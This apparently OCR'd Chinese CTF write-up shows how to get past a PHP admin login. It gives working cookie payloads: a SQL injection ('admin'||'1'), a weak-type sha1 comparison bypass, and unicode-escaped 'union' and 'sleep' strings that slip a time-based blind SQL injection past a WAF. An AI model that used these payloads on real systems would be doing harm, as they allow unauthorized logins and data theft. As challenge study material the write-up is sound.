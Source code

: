 ```php
        $admin_pass = sha1($udata['password'] . LOGIN_KEY);
        if ($admin_pass == $_SESSION["admin_pass"]) {
            $islogin = 1;
        }
    }
}
?>
```

#### 非预期解

1.第一个if判断islogin的cookie是否存在，**isset()**判断括号内的变量是否设定

2.进入判断，对login_data做json解码， **json_decode()** 接受一个 JSON 编码的字符串并且把它转换为 PHP 变量。 所以可判断login_data在设置的时候为json格式。  

3.通过下面的代码判断，json里面有admin_user, admin_pass 。 

4.这里构造payload:

> ```
> Cookie: PHPSESSID=s33h9c1u8bq5t0r8s4dura0c76; islogin=1; login_data={"admin_user":"admin'||'1","admin_pass":65}
> ```

这里利用两个点: sql查询绕过。带入的源码如下所示：

```sql
SELECT * FROM fish_admin WHERE username='admin' || '1' limit 1
```

从fish_admin表中选取一个数据， where username='admin' || ‘1’  是同一个比较级，相当于1，用管道符是使得无论什么账号都可以登陆， limit 1则是另外一个作用域。 

另外一个点：弱类型比较。

```php
$admin_pass = sha1($udata['password'] . LOGIN_KEY);
if($admin_pass == $login_data['admin_pass'])
```

我们可以通过构造 `json`字符串使`hash`值为数字，利用弱类型，绕过用户身份验证，实现任意用户登录。

这里给的是65 => sha1 加密后变成`2a459380709e2fe4ac2dae5733c73225ff6cfee1` ，弱类型比较，只要有一个字符满足比较条件，那么这个if语句就是1. 

接下来讲非预期解：json绕过WAF

\u0075nion，本地测试发现json_decode后变为union，成功bypass waf

根据这个，就可以在cookie中构造SQL注入语句

```
Cookie:PHPSESSID=t0k91etf5fecbi4t25d7hprtm3;islogin=1;login_data={"admin_user":"admin111'/**/\u0075nion/**/select/**/1,2,3,4,5,6/**/from/**/fish_admin/**/where/**/\u0073leep(3)\u003d'1","admin_pass":"3b30a11aaba222edd6e704e9959b94643ed4ffd9"}
```

这里用的是sleep盲注，我觉得不太靠谱… 因为当很多人在做测试的时候，如果大家都用了sleep，你跑出来的结果会有问题。

参考: 
